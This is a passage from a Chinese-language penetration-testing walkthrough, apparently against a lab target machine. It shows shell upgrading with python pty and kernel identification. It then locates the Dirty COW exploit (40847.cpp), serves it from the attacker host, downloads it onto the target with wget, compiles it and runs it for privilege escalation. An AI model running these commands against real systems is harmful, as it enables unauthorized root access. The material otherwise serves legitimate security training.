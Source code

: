 ####         33.执行shell命令实现交互。

####         34.发现进入的是一个伪终端，因此还要将其转换为真终端，执行下面的命令就将其变成了真终端。

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

####         35. 发现此时用户的权限是低权限，因此还要对用户进行提权。

####         36.下面进行提权。

**        下面是linux提权的几种方式：**

####         37.首先查看系统版本。

```
uname -a
```

####         38.通过搜索，发现此版本可以使用**脏牛提权。**

####         39.搜索exp。

```
searchsploit dirty
```

####         40.将要使用的exp下载到本地。

```
locate linux/local/40847.cpp
```

```
cp /usr/share/exploitdb/exploits/linux/local/40847.cpp /home/kali/桌面
```

####         41.再从本地开启web服务。

```
python3 -m http.server 8083
```

####         42. 将exp下载到靶机，然后将其进行编译并执行。

```
cd /tmp
```

```
wget http://192.168.190.138:8083/40847.cpp
```

```
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o yc 40847.cpp -lutil
```

```
./yc
```
